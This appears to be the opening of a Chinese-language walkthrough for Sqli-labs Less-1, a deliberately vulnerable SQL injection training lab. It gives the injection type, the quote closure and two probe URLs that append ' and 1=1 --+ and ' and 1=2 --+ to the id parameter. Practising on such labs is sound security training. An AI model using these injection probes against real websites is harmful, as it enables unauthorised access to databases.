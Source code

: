 # Sqli-labs

### Less-1：GET - Error based - Single quotes - string

**注入类型**

报错注入

**闭合方式**

id='\$id'

#### 判断中止类型

***

```sql
//回显正常
http://192.168.65.128/sqli-labs/Less-1/?id= 1' and 1=1 --+
//回显异常
http://192.168.65.128/sqli-labs/Less-1/?id= 1' and 1=2 --+

```

![](file/image_oKm-joLHvd.png)
